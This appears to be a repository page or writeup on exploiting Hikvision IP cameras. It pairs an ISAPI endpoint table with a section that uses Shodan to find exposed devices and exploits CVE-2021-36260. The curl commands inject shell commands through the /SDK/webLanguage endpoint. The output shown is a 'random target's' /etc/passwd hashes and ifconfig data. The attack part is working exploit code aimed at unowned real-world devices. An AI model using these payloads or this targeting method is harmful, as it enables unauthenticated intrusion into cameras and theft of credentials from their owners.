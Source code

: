 <table><thead><tr><th>Function</th><th width="112.45458984375">Method</th><th>Endpoint</th><th>Notes</th></tr></thead><tbody><tr><td>Get device info</td><td>GET</td><td><code>/ISAPI/System/deviceInfo</code></td><td>Model, firmware, serial</td></tr><tr><td>Reboot device</td><td>PUT</td><td><code>/ISAPI/System/reboot</code></td><td>Admin only</td></tr><tr><td>List users</td><td>GET</td><td><code>/ISAPI/Security/users</code></td><td>Returns full user list</td></tr><tr><td>Modify user</td><td>PUT</td><td><code>/ISAPI/Security/users/&#x3C;id></code></td><td>XML payload</td></tr><tr><td>Get snapshot</td><td>GET</td><td><code>/ISAPI/Streaming/channels/1/picture</code></td><td>Image stream, snapshot mode</td></tr><tr><td>Event stream</td><td>GET</td><td><code>/ISAPI/Event/notification/alertStream</code></td><td>Multipart XML + JPEG</td></tr><tr><td>Get interfaces</td><td>GET</td><td><code>/ISAPI/System/Network/interfaces</code></td><td>Network config</td></tr><tr><td>Firmware upgrade</td><td>PUT</td><td><code>/ISAPI/System/updateFirmware</code> (upload <code>.dav</code>)</td><td>Needs firmware binary</td></tr><tr><td>ISP mode control</td><td>PUT</td><td><code>/ISAPI/Image/channels/1/ISPMode</code></td><td>For switching day/night</td></tr><tr><td>ANPR trigger</td><td>GET</td><td><code>/ISAPI/Traffic/MNPR/channels/1?laneNo=1&#x26;OSD=1</code></td><td>License plate capture</td></tr></tbody></table>

***

### Tips

* Endpoints return **XML** by default. Use `-H "Accept: application/xml"` for clarity.
* Unauthorized? Try both basic and digest auth. Some firmwares toggle between them.
* Discover endpoints by sniffing traffic with Burp or browser dev tools when using the web interface.

***


## RCE Thru Curl :

Initial exploitation began by selecting targets from Shodan search results using the query `3.1.3.150324`, which yields Hikvision devices exposing the vulnerable `/SDK/webLanguage` endpoint. A crafted HTTP `PUT` request was sent with `Content-Type: application/x-www-form-urlencoded; charset=UTF-8`, injecting command execution payloads via XML input like `<?xml version="1.0"?><language>$(COMMAND)</language>`, exploiting the unsanitized input processing in CVE-2021-36260. Successful execution was verified by chaining the payload with a subsequent `curl` request to retrieve command output (e.g., dumping `/etc/passwd`, `ifconfig`, or directory listings) from a predictable location (`/webLib/x`) on the target, confirming unauthenticated RCE on multiple devices.

### Basic Enumerating On a random target:

```bash
 ╭─hex@space in repo: HikvisionExploiter on  main [!?] via  v3.13.5 took 0s
 ╰─λ curl -s -X PUT "http://IP:82/SDK/webLanguage" \
           -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
           --data '<?xml version="1.0" encoding="UTF-8"?><language>$(cat /etc/passwd > webLib/x)</language>' \
           > /dev/null && curl -s "http://IP:82/x"

root:$1$yi$R2PYdRrGOlLVVIaehmYwl.:0:0:root:/root/:/bin/sh
admin:$1$yi$R2PYdRrGOlLVVIaehmYwl.:0:0:root:/:/bin/sh

 ╭─hex@space in repo: HikvisionExploiter on  main [!?] via  v3.13.5 took 1s
 ╰─λ curl -s -X PUT "http://IP:82/SDK/webLanguage" \
           -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
           --data '<?xml version="1.0" encoding="UTF-8"?><language>$(ifconfig > webLib/x)</language>' \
           > /dev/null && curl -s "http://IP:82/x"

eth0      Link encap:Ethernet  HWaddr 28:57:BE:5E:0E:7F  
          inet addr:192.168.1.65  Bcast:192.168.1.255  Mask:255.255.255.0
          inet6 addr: fe80::2a57:beff:fe5e:e7f/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:8908 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3616931 errors:0 dropped:0 overruns:0 carrier:0
```